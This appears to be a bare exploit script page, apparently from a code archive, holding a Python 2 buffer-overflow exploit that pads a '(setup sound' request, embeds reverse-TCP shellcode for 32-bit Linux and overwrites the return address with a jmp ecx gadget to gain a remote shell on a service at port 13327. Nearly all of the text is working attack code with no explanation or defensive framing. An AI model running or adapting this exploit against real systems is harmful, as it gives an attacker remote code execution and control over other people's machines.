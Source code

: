 Exploit
-------

    import socket
    import struct

    #Script by Wulfzz (Axua)

    #offset to ret addr  = 4368
    #offset to jmp ecx   = 4198

    host = "127.0.0.1"
    port = 13327

    #linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444
    shellcode = "\xbe\xc1\x25\xda\x2c\xdd\xc7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
    shellcode +="\x12\x31\x72\x12\x83\xea\xfc\x03\xb3\x2b\x38\xd9\x02\xef\x4b"
    shellcode +="\xc1\x37\x4c\xe7\x6c\xb5\xdb\xe6\xc1\xdf\x16\x68\xb2\x46\x19"
    shellcode +="\x56\x78\xf8\x10\xd0\x7b\x90\xdd\x22\x7c\x61\x4a\x21\x7c\x70"
    shellcode +="\xd6\xac\x9d\xc2\x80\xfe\x0c\x71\xfe\xfc\x27\x94\xcd\x83\x6a"
    shellcode +="\x3e\xa0\xac\xf9\xd6\x54\x9c\xd2\x44\xcc\x6b\xcf\xda\x5d\xe5"
    shellcode +="\xf1\x6a\x6a\x38\x71"

    prefix= "\x11(setup sound "

    padding_to_ecx = "\x41" * 4198
    padding_to_ret = "\x41" * (170 - len(shellcode))

    jmp_ecx = struct.pack("<I", 0x0813C51F) # jmp ecx

    payload = prefix + padding_to_ecx + shellcode + padding_to_ret  + jmp_ecx + "\x90" * 8 + "\x00"

    #sending payload
    s = socket.socket()
    s.connect((host, port))

    print s.recv(1024)
    s.send(payload)
    s.close()
    print "[*] Payload sent."